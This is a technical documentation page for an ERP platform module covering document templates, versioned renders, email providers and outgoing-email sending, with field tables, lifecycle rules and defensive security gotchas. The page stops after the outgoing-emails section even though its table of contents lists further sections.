







# Platform

Cross-cutting infrastructure: how documents are rendered to PDF, how mail leaves the building, how CSV import/export works, how external API clients authenticate, and the mobile flows that wrap all of the above for a phone-sized screen.

> **Where do I begin?** Configure an [Email Provider](#email-providers) first (until you do, `EmailDeliveryService` auto-bootstraps a `mail_log_stub` per tenant so sends don't crash — but the default-flag stays `0` and you'll get a "no active default" refusal on the next send unless you opt in). Then create a [Document Template](#document-templates) for the entity you want to mail (`customer_invoice` is the canonical first one), draft → promote it to active so a version row exists, and finally fire a test [Outgoing Email](#outgoing-emails). Once that loop works, [Import Jobs](#import-jobs) / [Export Jobs](#export-jobs), [API Keys](#api-keys), and [Mobile Flows](#mobile-flows) all light up against the same plumbing.

---

## Table of contents

1. [Document Templates](#document-templates)
2. [Document Template Versions](#document-template-versions)
3. [Document Renders](#document-renders)
4. [Email Providers](#email-providers)
5. [Outgoing Emails](#outgoing-emails)
6. [Outgoing Email Attachments](#outgoing-email-attachments)
7. [Import Jobs](#import-jobs)
8. [Export Jobs](#export-jobs)
9. [API Keys](#api-keys)
10. [Mobile Flows](#mobile-flows)

---

## Document Templates

### What it is

A per-tenant template for a printable / e-mailable artefact (invoice PDF, sales-order confirmation email, vendor-bill plain-text notice). The **head record** holds the mutable working copy; each promote freezes the head into an immutable **version row** that the renderer references — so a PDF rendered last week is reproducible byte-for-byte even after the head has been edited.

> **Example:** Tenant has one template `Standard Invoice` for `entity_type = customer_invoice`, `format = html_pdf`. Operator edits the html_template to bump the logo size, hits Promote → version 7 is frozen into `document_template_versions` with `status = active`, version 6 is auto-archived, and the head goes from `draft` back to `active`. Every render call against the template thereafter binds to version_id 7 in the [Document Renders](#document-renders) audit row.

### How records get created

| Method | When |
|---|---|
| UI (`/erp/document-templates`) → New Template | The default path — operator authors HTML, picks entity_type + format, saves a draft. |
| `POST /erp/document-templates` | API path with `{entity_type, name, html_template, format, subject_template?, is_default?}`. |

There is no import/seed path in v1 — every tenant starts from scratch.

### Fields

| Field | Required | Notes |
|---|---|---|
| Name | Yes | UNIQUE per (tenant, name) — `uq_dt_tenant_name`. Duplicate save returns 422 "A template with that name already exists for this tenant." |
| Entity Type | Yes | Free-text but only `customer_invoice` / `vendor_bill` / `sales_order` / `purchase_order` can actually be rendered (see [Document Renders](#document-renders) allowlist). Other values save but every render attempt returns 422. |
| Subject Template | Optional | Used for `html_email` format. Same Mustache-subset syntax as the body. |
| HTML Template | Yes | Body. Mustache-subset: `{{path.to.value}}`, `{{#each items}}…{{/each}}`, `{{! comment }}`. |
| Format | Default `html_pdf` | One of `html_pdf` / `html_email` / `plain_text`. Invalid values return 422 explicitly — the model would silently drop them; the service rejects so the operator sees the failure. |
| Status | Auto | `draft` / `active` / `archived`. Lifecycle below. |
| Current Version | Auto | Bumped by promote. Renders reference the version row at this number. |
| Is Default | Default `0` | When multiple templates exist per entity_type, the default is picked by `findActiveByEntity`. |
| Is Active | Default `1` | Soft on/off independent of lifecycle status. |

### Template syntax cheatsheet

```mustache
{{!-- A header for a customer_invoice. Context shape:
       invoice = {id, number, total_due, …}
       lines   = [{sku, qty, unit_price, line_total}, …]
       customer = {name, email, phone, address, city, …}
       tenant   = {name, default_currency, …}
       today    = "2026-06-09"
--}}
<h1>Invoice {{invoice.number}}</h1>
<p>{{tenant.name}} &mdash; {{today}}</p>

<h2>Bill To</h2>
<p>{{customer.name}}<br>
   {{customer.address}}<br>
   {{customer.city}}, {{customer.country}}</p>

<table>
  <tr><th>SKU</th><th>Qty</th><th>Unit</th><th>Total</th></tr>
  {{#each lines}}
  <tr>
    <td>{{sku}}</td>
    <td>{{qty}}</td>
    <td>{{unit_price}}</td>
    <td>{{line_total}}</td>
  </tr>
  {{/each}}
</table>

<p>Reference: {{root.invoice.number}} &mdash; total {{invoice.total_due}}</p>
```

Inside the `{{#each lines}}` block, `{{sku}}` is the current line's column, `{{root.invoice.number}}` reaches back to the root scope (no auto-walk; you must say `root.`).

### Lifecycle



- **Promote** runs a compile-walk first — `MergeVariableResolver::render` against an empty context. Syntax errors throw before the version row is written, so a `{{#each x}}` with no matching `{{/each}}` never reaches a live tenant.
- **Edit head while active** silently demotes back to `draft` — the rationale is "operators see a 'changes pending promote' state instead of editing a live template under the covers." The active version row is untouched.
- **Promote is CAS-guarded** — `DocumentTemplate::setStatusIfFrom('draft','active')` runs as an `UPDATE … WHERE status='draft'` with a `rowCount()===1` check. A concurrent second promote sees zero rows affected, rolls back the txn, and the operator gets "Promote failed: template is no longer in draft status (concurrent change)" instead of an orphan version row + a "promoted" audit lie. (Round-3 Sev-1 fix.)
- **Archive** refuses if any `outgoing_emails` row references the template with `status='pending'` — clear those first. It does NOT refuse on `sent` rows; the version row stays around so the audit trail is intact.

### Actions

- **List / filter** — by entity_type, status, format.
- **Create draft** — body required, status starts at `draft`.
- **Edit head** — any column except status/current_version. Active templates demote to draft.
- **Promote** — freezes head → new version row, `status = active`.
- **Archive** — terminal soft-delete. The active version row also flips to `archived`.
- **Delete** — only if zero renders AND zero outgoing_emails reference it. Otherwise the screen surfaces "archive instead of delete."
- **Render** — preview path. `POST /erp/document-templates/{id}/render` with `{entity_type, entity_id}` runs `DocumentRenderService::render` in non-strict mode and returns the resolved HTML / PDF base64 + the list of missing variables.

### Gotchas

- **Mustache-subset is not real Mustache.** Triple-brace `{{{raw}}}` is explicitly refused — `MergeVariableResolver::render` throws `triple-brace {{{raw}}} is not supported (security)`. If you need raw HTML, pre-escape in the context. Triple-brace was the v0 default; we removed it because customer-controlled fields (`customer.notes`, `invoice.po_reference`) could inject `<script>` into the PDF/email body.
- **Parent-scope auto-walk was removed** (Sev-1 round-3 fix). The original resolver fell through from inner each-block scope to the root scope when an inner key wasn't found, which silently substituted root values into iteration scopes when an inner key was misspelled. Templates now have to be explicit: inside `{{#each lines}}` use `{{quantity}}` for the line and `{{root.invoice.id}}` for the parent.
- **`{{.}}` is only valid for scalar each-items** (Sev-1 round-3 fix). Inside `{{#each tags}}{{.}}{{/each}}` when `tags = ['A','B']`, `{{.}}` resolves to each scalar. For associative-array items (`lines = [{sku:…}]`), `{{.}}` returns the MISS sentinel rather than throwing a confusing "cannot interpolate array" during promote compile-walk — the template author then knows they want `{{sku}}`, not `{{.}}`.
- **NULL DB columns no longer abort strict sends** (Sev-1 round-3 fix). The resolver distinguishes "key absent" (MISS sentinel → strict-mode abort + collector hit) from "key present but null" (renders as empty string, no collector hit). Without this, every invoice for a customer with a NULL `phone` or `notes` column would refuse to send.
- **MAX_DEPTH = 32, MAX_ITERATIONS = 5000** anti-runaway guards. A template with 33-deep nested `{{#each}}` or a 5001-item list throws — by design, so a malicious template can't lock a render worker. Both raise `RuntimeException` with a descriptive message naming the path that tripped the cap.
- **`{{!comment}}` is the only block-shaped tag besides `{{#each}}` / `{{/each}}`.** Any other `{{#X}}` opener fails compile-walk at promote time with "unsupported block tag". `{{#if}}`, `{{#unless}}`, `{{>partial}}`, helpers, and lambdas are explicitly NOT supported in v1; add them in a later platform sprint if you really need conditional sections.
- **Path syntax accepts both dot + bracket** — `lines.0.sku` and `lines.[0].sku` parse identically. Empty path segments (`a..b`) are rejected with a compile error. Empty bare path (`{{}}`) resolves to MISS like any other absent path.
- **Arrays cannot be interpolated as scalars.** A `{{customer}}` where `customer` is an array throws "cannot interpolate array value (did you mean `{{#each}}`?)" — better than silently printing `Array` or `[object Object]` and shipping it to the customer.
- **Objects need `__toString`** to be interpolated. Without it the resolver throws explicitly so a stray DateTime in the context doesn't silently render as `Object`.
- **Compile-check at promote time** runs the full resolver against an empty context. Missing-variable warnings are tolerated (runtime concern); syntax errors abort. This catches the "ship a template that throws on first send" footgun.
- **HEAD edit on an active template silently demotes to draft.** Some operators are surprised that the live invoice still renders the old version until they re-promote — that's by design.

---

## Document Template Versions

### What it is

The append-only history of every promote. One row per (template_id, version) — `document_template_versions.version` is monotonically increasing per template, computed as `MAX(version) + 1` at promote time. Every render references a version row (never the head), so audit-trail integrity is preserved across head edits.

### Fields

| Field | Source | Notes |
|---|---|---|
| Template ID | Promote | Owning template head. |
| Version | Promote | Sequential per (tenant, template). |
| Subject Template / HTML Template | Snapshot | Frozen copy of the head at promote time. |
| Format | Snapshot | Inherits from head. |
| Status | `active` / `archived` | Exactly one `active` row per template at any time — prior active is archived by the same promote txn. |
| Created By / At | Audit | Who promoted, when. |

### Lifecycle



There is no "draft version" state — versions only exist after a promote, and they're born active. Editing a head doesn't create a version; only promote does.

### Actions

- **List versions for a template** — embedded in the template show response.
- **No mutation API.** Version rows are read-only via the public surface; the service layer is the only writer.

### Gotchas

- **Renders reference `version_id`, not `version` number.** Even if a future migration ever renumbered rows, the render row's pointer survives because it's the PK reference.
- **Archived versions are kept indefinitely** because the audit trail depends on them. Deleting a template requires zero references in `document_renders` AND `outgoing_emails`.
- **UNIQUE (template_id, version)** — `uq_dtv_template_version` enforces the monotonic numbering at the DB level. A race that tried to insert two `version = 4` rows for the same template would fail with 1062 at the DB.
- **`findActiveForTemplate` ORDER BY version DESC LIMIT 1** — by-design returns "the highest-numbered active row" so even if a manual DB edit somehow left multiple `active` rows the renderer picks the newest, never the oldest.

---

## Document Renders

### What it is

The audit trail for every `DocumentRenderService::render` call. Records the resolved variables that went into the render, the bytes that came out, and either `status = success` or `status = error` + the diagnostic.

> **Example:** Operator clicks "Preview" on Invoice INV-2026-0042 against the `Standard Invoice` template. Service builds the customer_invoice context (`invoice`, `lines`, `customer`, `tenant`, `today`), renders the active version's HTML through `MergeVariableResolver`, runs `PdfRendererService::render` over the result, writes the bytes to `api/storage/document_renders/{tenant_id}/customer_invoice_42_20260609083000_a1b2c3.pdf`, and inserts a `document_renders` row with `status='success'`, `output_path` set, `variables_json` capturing the resolved context.

### Fields

| Field | Source | Notes |
|---|---|---|
| Template ID / Version ID | render call | Both stored — version_id is what makes reproducibility work. |
| Entity Type / Entity ID | render call | Must be in `SUPPORTED_ENTITIES` (see Gotchas). |
| Format | Version snapshot | `html_pdf` / `html_email` / `plain_text`. |
| Output Path | Set on `html_pdf` success | Relative to `api/storage/`. |
| Output Bytes | Set on success | Length of the produced payload. |
| Variables JSON | Always | `json_encode` of the resolved context — large, but compliance-load-bearing. |
| Status | `success` / `error` | Only two values. |
| Error Message | Set on `status=error` | Includes the exception class + message. |
| Rendered By / At | Audit | User id + timestamp. |

### Actions

- **List for tenant** — filter by `template_id`, `entity_type`, `entity_id`, `status`. Capped at 200 most-recent.
- **No retry / re-render endpoint.** Re-running render is a fresh call that writes a fresh row.

### Gotchas

- **`SUPPORTED_ENTITIES` is a hard allowlist of 4 entries** — `customer_invoice`, `vendor_bill`, `sales_order`, `purchase_order`. Any other entity_type returns 422 immediately. The motivation: there is no generic `SELECT * FROM {entity_type}_table WHERE id=?` fallback in `DocumentRenderService::buildContext`, so a tenant cannot exfiltrate arbitrary table rows by setting a clever entity_type. Add new entities by editing the constant + writing a `contextForX` method.
- **Every failure writes an audit row.** The render call is wrapped in try/catch; even a strict-mode missing-variable abort, a missing PDF backend, or a disk-write failure produces a `document_renders` row with `status='error'` before the exception re-raises. Without this the table is success-only and operators can't answer "how often does the invoice render fail this week?" (Round-3 fix.)
- **The audit-row write itself is try/catch-wrapped** so if the error-path INSERT fails (DB outage, etc.) the original exception is logged but still propagates — the new failure doesn't swallow the original cause.
- **Filenames embed a random suffix** (`bin2hex(random_bytes(3))`) so re-renders of the same (template, entity) tuple produce distinct files — old renders stay recoverable for compliance lookup. Format: `{entity_type}_{entity_id}_{YYYYMMDDHHMMSS}_{hex}.pdf`.
- **Defense-in-depth filename sanitisation** even though `SUPPORTED_ENTITIES` already constrains the entity_type to four safe values: `preg_replace('/[^A-Za-z0-9_]+/', '_', $entityType)`. A future contributor who adds a new entity with a `/` or `..` substring would otherwise get arbitrary file-write under the storage root.
- **No retention policy in v1.** Render files accumulate on disk under `api/storage/document_renders/{tenant_id}/`. A retention cron is a per-deployment add-on; the audit table itself is the durable record.
- **PDF backend swap is per-deployment, not per-tenant.** `Config::get('pdf_renderer_class')` is the single global lever; no tenant ever sees it. Even a comma-separated allowlist entry would be a security concern (see PdfRendererService Gotcha).
- **The render API does NOT accept a custom context payload.** Every context value comes from a server-side tenant-scoped query. This blocks the "tenant-controlled merge variables get baked into a customer-facing PDF" exfil vector.
- **`PdfRendererService` has a HARD ALLOWLIST of backend class names.** Currently only `PdfRendererStub` is allowed. If `Config::get('pdf_renderer_class')` ever returns a string that isn't on `ALLOWED_BACKENDS`, the service throws "backend is not on the allowlist" and logs the attempt — this prevents RCE if a future deploy ever lets tenants influence the config value (an arbitrary class name could resolve to any class on the classpath with a static `render(string)` method).

---

## Email Providers

### What it is

Per-tenant per-channel SMTP / SES / SendGrid / Postmark / Mail-Log-Stub configuration. Tenant picks one as the default; sends without an explicit `provider_id` route through it. The credentials field is base64-encoded at rest in v1; the controller strips it from every response.

> **Example:** Tenant configures two providers: `SES Production` (provider_code = `ses`, is_default = 1, from = `billing@acme.com`) for invoices, and a `MailLogStub` (auto-created on first send) with is_default = 0 for dev/demo. Invoices route through SES; manual operator sends with `provider_id=2` go through the stub.

### How records get created

| Method | When |
|---|---|
| UI (`/erp/email-providers`) → New | Operator pastes SMTP host / API key. |
| `POST /erp/email-providers` | API path. Credentials field accepts a string or array (auto JSON-encoded then base64). |
| Auto-bootstrap by `EmailDeliveryService::resolveProvider` | When a send is attempted and ZERO providers exist for the tenant, a `mail_log_stub` row is auto-created with `is_default = 0` and used for that one send. Operator still has to opt in by flipping is_default on a subsequent visit. |

### Fields

| Field | Required | Notes |
|---|---|---|
| Name | Yes | UNIQUE per (tenant, name) — `uq_edp_tenant_name`. |
| Provider Code | Yes | One of `mail_log_stub` / `smtp` / `ses` / `sendgrid` / `postmark`. Invalid values fall back to `mail_log_stub` silently on create (model) but the controller's only enforcement is the model enum check at write time. |
| Endpoint | Optional | Host/URL for the backend. |
| From Address | Yes | RFC-validated by the controller (`filter_var`). |
| From Name | Optional | Display name on outbound. |
| Reply-To Address | Optional | If set, replies route here. |
| Credentials | Optional | Base64-encoded in `credentials_encrypted`. Never returned in any list/show response (controller `unset()`s it before responding). |
| Is Active | Default `1` | Inactive providers are skipped by `findDefault`. |
| Is Default | Default `0` | Exactly one default per tenant is the intent (see Gotchas). |

### Actions

- **List** — manager-role only. Credentials stripped.
- **Create / update** — Validates from_address shape. Wraps the (create + clearDefaultExcept) pair in a transaction (see Gotchas).
- **Delete** — refused if any `outgoing_emails` references this provider — the audit trail would break. Surface message: "Provider has outgoing emails — deactivate instead."

### Gotchas

- **Default-flag flip is transactional** (Sev-1 round-3 fix). `store` and `update` both wrap `EmailDeliveryProvider::create / update` and `EmailDeliveryProvider::clearDefaultExcept` in a single transaction (the `$owns = !Database::inTransaction()` pattern). Without this, two concurrent "set as default" requests can both commit and leave two rows with `is_default = 1`; `findDefault` would pick one silently and sends would race through the wrong provider.
- **Credentials never reach a response payload.** Both `find()` (which returns them for service-layer use) and the controller `show()` explicitly `unset($row['credentials_encrypted'])` before serialising. If you ever add a debug endpoint, do the same.
- **KMS at-rest encryption is a later platform sprint.** `credentials_encrypted` is base64 only — a DB dump shows plaintext after `base64_decode`. The `/show` endpoint omitting credentials + the manage-role gate are the v1 mitigation.
- **`provider_code = mail_log_stub` does NOT call out to a network.** Sends through it just write the `outgoing_emails` row with `status = sent` and a synthetic `provider_message_id` of shape `stub-{YYYYMMDDHHMMSS}-{4-byte-hex}`. Tests assert against the row; production tenants should not leave a stub as their default.
- **Manage role required everywhere.** Even read access requires `super_admin` / `admin` / `manager`.

### Per-entity context shape (reference)

The context fed to `MergeVariableResolver` is built server-side; the API does not accept a custom context payload (deliberate exfil-vector mitigation). Per entity type:

| entity_type | Root keys |
|---|---|
| `customer_invoice` | `invoice`, `lines`, `customer`, `tenant`, `today` |
| `vendor_bill` | `bill`, `lines`, `vendor`, `tenant`, `today` |
| `sales_order` | `order`, `lines`, `customer`, `tenant`, `today` |
| `purchase_order` | `order`, `lines`, `vendor`, `tenant`, `today` |

`tenant` is `{id, name, default_currency, default_locale, default_timezone}`. `customer` / `vendor` are restricted to `{id, name, email, phone, address, city, state, country, zip_code}` — the SELECT is explicit, so even if `companies` grows new columns they don't leak into a PDF until someone updates the context builder.
- **Real backends are not shipped in v1.** The `provider_code` enum includes `smtp` / `ses` / `sendgrid` / `postmark` for forward-compat but `EmailDeliveryService::backendForCode` only maps `mail_log_stub` → `MailLogStub` today. Picking any other code produces an "Unknown email backend" error at send time (the row gets `status='error'` with the diagnostic). Real backends drop in as separate classes (`SmtpEmailBackend`, `SesEmailBackend`, etc) in a later sprint.

---

## Outgoing Emails

### What it is

The queued + sent message log. One row per `EmailDeliveryService::send` call. The row IS the audit trail — there's no separate "send log" table.

> **Example:** Operator hits "Email Invoice" on INV-0042. Service renders the active template strict-mode (refuses if any context variable is missing — see [Document Renders](#document-renders)), validates the recipient list with `filter_var`, inserts a row with `status='pending'`, dispatches via the configured backend, and on success calls `markSent` to transition the row to `status='sent'` + stamp `provider_message_id`. The attached PDF is linked via [Outgoing Email Attachments](#outgoing-email-attachments).

### How records get created

| Method | When |
|---|---|
| `POST /erp/outgoing-emails` | The main UI path — sends a rendered template with `{template_id, entity_type, entity_id, to, cc?, bcc?, provider_id?, subject_override?, attach_pdf?}`. |
| Any other domain action that auto-mails | E.g. an invoice approval that triggers a customer email; the call site invokes `EmailDeliveryService::send` directly. |

### Fields

| Field | Source | Notes |
|---|---|---|
| Provider ID | resolveProvider | Bound at send time. |
| Template ID / Version ID | send payload | Version is captured for reproducibility. |
| Entity Type / Entity ID | send payload | Lets the operator answer "show me every email that went out about invoice 42." |
| To / CC / BCC Addresses | send payload | Stored as JSON arrays. Each entry RFC-validated; invalid addresses dropped. |
| From Address / Name / Reply-To | Provider | Pulled from the resolved provider row, NOT the payload. |
| Subject | Render result or override | Capped to 998 chars (RFC 5322 line limit). |
| Body HTML / Text | Render result | One of the two will be set depending on format. |
| Status | Lifecycle | `pending` / `sent` / `error` / `cancelled`. |
| Provider Message ID / Response | Backend dispatch | Set on transition to `sent` / `error`. |
| Error Message | Set on `error` | Includes the dispatch backend's diagnostic. |
| Queued At | Auto on create | |
| Sent At | Set on `markSent` | NULL while pending. |

### Lifecycle



- **MailLogStub creates rows with `status='sent'` immediately** — the row IS the test signal, no network is touched.
- **Real backends create with `status='pending'`** then transition to `sent` or `error` after dispatch.
- **There's no automatic retry of `error` rows in v1** — operator re-sends manually (which creates a fresh row).

### Email Provider Resolution

When `provider_id` is not explicit on the send call:



### Actions

- **List** — filter by `status`, `entity_type`, `entity_id`. Capped at 200 most-recent.
- **Show** — includes attached `outgoing_email_attachments`.
- **Send** — render + dispatch in one call (`POST /erp/outgoing-emails`). Manager role required.

### Gotchas

- **Strict-mode render on send** — `EmailDeliveryService::send` calls `DocumentRenderService::render(..., strict=true)`. A missing variable aborts with an operator-actionable message instead of silently sending a half-blank invoice. The preview/render endpoint on the template uses `strict=false` so the operator can SEE missing variables; sends refuse to ship them.
- **Recipient validation returns a `{valid, dropped}` tuple** (Sev-1 round-3 fix). Invalid addresses are stripped, not silently downgraded. If `to` ends up empty after validation, the send refuses with "No valid recipient addresses". The dropped list is also stuck on the response payload (`dropped_addresses`) so the operator sees a partial-send signal even when the send succeeded with the survivors.
- **`markSent` / `markError` return values are CHECKED** (Sev-1 round-3 fix). A 0-row UPDATE (concurrent delete, tenant mismatch) used to leave the row in `pending` AND the audit log would still claim it shipped — `email.sent` action was logged unconditionally. Now both methods are wrapped in a `throw new RuntimeException` so it surfaces as a fatal transaction error and rolls back to a clean state.
- **Audit verb is outcome-aware** (Sev-1 round-3 fix). Action is `email.sent` ONLY when the final status is `sent`; otherwise `email.send_failed`. Compliance queries on `action='email.sent'` used to over-count by every failure as well.
- **On dispatch error, the row is PRESERVED** with `status='error'` + the diagnostic. `send()` then RAISES a RuntimeException so the controller returns non-2xx and the UI doesn't show a green "Sent" toast on a real failure. The audit row remains intact for compliance.
- **Subject is capped at 998 chars** (RFC 5322 line length limit minus CRLF). Longer subjects are silently truncated by the model — by design.
- **Body content arrays double-encode-safe.** Address columns accept either a PHP array or a pre-serialised JSON string; `jsonOrPassthrough` distinguishes and never double-encodes.
- **A failed dispatch backend that throws is treated as `error`, not as 500.** `dispatch()` wraps the backend call in try/catch and returns `status='error'` with the exception message. The send() path then preserves the row and surfaces the failure to the operator.
- **A malformed backend response is treated as `error` too.** If `deliver()` returns a non-array OR an array without a `status` key, the dispatch path swaps in `error_message = 'Backend returned malformed response'` rather than guessing — better than a silent success that didn't actually ship.
- **Indexes on the log table** (`idx_oe_tenant_status`, `idx_oe_tenant_entity`, `idx_oe_tenant_queued_at`) keep "show me every email for this entity" and "show me every error in the last hour" queries fast even on tenants with millions of rows. The list query is capped at 200 most-recent.

### Realistic walkthroughs

**Email a customer invoice:**
1. Operator viewing INV-0042 clicks "Email Invoice."
2. UI POSTs `{template_id: 7, entity_type: 'customer_invoice', entity_id: 42, to: 'ap@acme.com'}` to `/erp/outgoing-emails`.
3. `EmailDeliveryService::send`:
   - validates `ap@acme.com` (passes); no dropped.
   - resolves the tenant's default provider (`SES Production`).
   - calls `DocumentRenderService::render(..., strict=true)` → returns body + PDF base64 + output_path.
   - inserts `outgoing_emails` row (status `pending`).
   - attaches the PDF via `OutgoingEmailAttachment` with `render_id` pointing back to the audit row.
   - `dispatch()` → SES backend → returns `{status:'sent', provider_message_id:'010f01…'}`.
   - `markSent` flips the row, audit `email.sent` logged.
4. Controller returns 201 with the row; UI toasts green "Sent" and refreshes the outgoing-emails list.

**Strict-mode missing variable refusal:**
1. Operator emails INV-0099 but the invoice has `notes = NULL` AND the template references `{{invoice.purchase_order_ref}}` which doesn't exist on the schema.
2. Strict render aborts on the second variable (NULL is fine — MISS sentinel rules — but absent path triggers the strict abort).
3. Service catches `RuntimeException`, but BEFORE the catch the `DocumentRenderService` already wrote a `document_renders` row with `status='error'` and the diagnostic.
